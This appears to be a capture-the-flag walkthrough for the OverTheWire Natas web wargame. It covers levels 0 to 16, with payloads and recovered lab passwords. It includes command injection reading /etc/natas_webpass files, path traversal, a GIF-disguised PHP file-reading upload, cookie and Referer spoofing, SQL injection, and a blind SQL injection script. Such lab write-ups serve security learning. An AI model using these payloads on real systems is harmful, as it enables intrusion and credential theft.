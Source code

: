 <details open>
<summary>Level 0 - > Level 1</summary>

```
<div id="content"><font style="vertical-align: inherit;"><font style="vertical-align: inherit;">
您可以在此页面找到下一级的密码。

</font></font><!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 -->
</div>
```

</details>

<details open>
<summary>Level 1 - > Level 2</summary>

```
<div id="content"><font style="vertical-align: inherit;"><font style="vertical-align: inherit;">
您可以在此页面找到下一级的密码，但右键已被阻止！

</font></font><!--The password for natas2 is h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7 -->
</div>
```

</details>

<details open>
<summary>Level 2 - > Level 3</summary>

```
<font style="vertical-align: inherit;"><font style="vertical-align: inherit;">
该页面上没有任何内容
</font></font>

http://natas2.natas.labs.overthewire.org/files/

# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

</details>

<details open>
<summary>Level 3 - > Level 4</summary>

```
http://natas3.natas.labs.overthewire.org/robots.txt

http://natas3.natas.labs.overthewire.org/s3cr3t/

tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

</details>

<details open>
<summary>Level 4 - > Level 5</summary>

```
Referer: http://natas5.natas.labs.overthewire.org/

<script>
var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script>

Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```

</details>

<details open>
<summary>Level 5 - > Level 6</summary>

```
Cookie: __utma=176859643.1977144041.1687720082.1687720082.1687720082.1; __utmc=176859643; __utmz=176859643.1687720082.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); loggedin=1

Access granted. The password for natas6 is fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

</details>

<details open>
<summary>Level 6 - > Level 7</summary>

```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>

jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```

</details>

<details open>
<summary>Level 7 - > Level 8</summary>

```
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
```

</details>

<details open>
<summary>Level 8 - > Level 9</summary>

```
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}

import base64

encoded_secret = "3d3d516343746d4d6d6c315669563362"

# 将十六进制转换为字节串
hex_bytes = bytes.fromhex(encoded_secret)

# 反转字节串
reversed_bytes = hex_bytes[::-1]

# 解码 Base64
decoded_bytes = base64.b64decode(reversed_bytes)

# 将字节串转换为字符串
password = decoded_bytes.decode('utf-8')

print(password)

Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```

</details>

<details open>
<summary>Level 9 - > Level 10</summary>

```
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}

a | cat /etc/natas_webpass/natas10 #

D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

</details>

<details open>
<summary>Level 10 - > Level 11</summary>

```
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}

. /etc/natas_webpass/natas11

1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

</details>

<details open>
<summary>Level 11 - > Level 12</summary>

```
document.cookie = "data=MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz";

The password for natas12 is YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG
```

</details>

<details open>
<summary>Level 12 - > Level 13</summary>

```
<?php
    $myfile = fopen("/etc/natas_webpass/natas13", "r") or die("Unable to open file!");
    echo fread($myfile,filesize("/etc/natas_webpass/natas13"));
    fclose($myfile);
?>

lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```

</details>

<details open>
<summary>Level 13 - > Level 14</summary>

```
GIF98a
<?php
    $myfile = fopen("/etc/natas_webpass/natas13", "r") or die("Unable to open file!");
    echo fread($myfile,filesize("/etc/natas_webpass/natas13"));
    fclose($myfile);
?>


qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```

</details>

<details open>
<summary>Level 14 - > Level 15</summary>

```
username = " or 1 = 1 #

Successful login! The password for natas15 is TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
```

</details>

<details open>
<summary>Level 15 - > Level 16</summary>

```
#!/usr/bin/env python3
import requests

url = 'http://natas15.natas.labs.overthewire.org/index.php'
username = 'natas15'
password = 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'
key = ""

for pos in range(1,33):
    low = 32
    high = 126
    mid = (high + low) >> 1

    while mid < high:
        # print low,mid,high
        payload = "natas16\" and %d < ascii(mid(password,%d,1)) and \"\" like \"" % (mid, pos)
        req = requests.post(url, auth=requests.auth.HTTPBasicAuth(username, password), data={"username": payload})
        # print req.text
        if req.text.find("doesn't exist") == -1:
            low = mid + 1
        else:
            high = mid
        mid = (high + low) >> 1

    key += chr(mid)
    print(key)

TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
```

</details>

<details open>
<summary>Level 16 - > Level 17</summary>

```

```

</details>
